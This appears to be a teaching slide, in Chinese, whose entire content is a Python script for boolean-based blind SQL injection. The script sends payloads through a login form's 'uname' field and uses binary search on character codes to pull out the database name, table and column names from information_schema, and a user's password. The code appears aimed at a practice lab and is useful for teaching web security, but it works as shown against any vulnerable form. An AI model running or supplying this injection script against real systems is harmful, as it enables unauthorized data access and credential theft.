

# 关键代码展示
        while True:
            i = i + 1
            low = 32
            high = 127
            while low < high:
                mid = (low + high) // 2
                if k==0:payload = f"1' or ascii(substr((select database()),{i},1))>{mid}#"
                if k==1:payload = f"1' or ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema='{schema}'),{i},1))>{mid}#"
                if k==2:payload = f"1' or ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='{table}' and table_schema='{schema}'),{i},1))>{mid}#"
                if k==3:payload = f"1' or ascii(substr((select password from {schema}.{table} where username='{user}'),{i},1))>{mid}#"
                data = {
                    'uname': payload,
                    'passwd': 'admin',
                    'submit': "Submit"
                }#POST传参发包
                r = requests.post(url=url, data=data)
                r.encoding = "utf-8"#防止乱码
                if 'flag' not in r.text:#判断有没有该词，没有说明原来语句值为假
                    high = mid
                else:
                    low = mid + 1
                time.sleep(0.2)#放慢速度防止服务器崩溃
            if low != 32:
                result += chr(low)
                print(time.strftime('%Y-%m-%d %H:%M:%S',time.localtime(time.time())), '努力加载中......')
                print(result)#输出结果
            else:
                break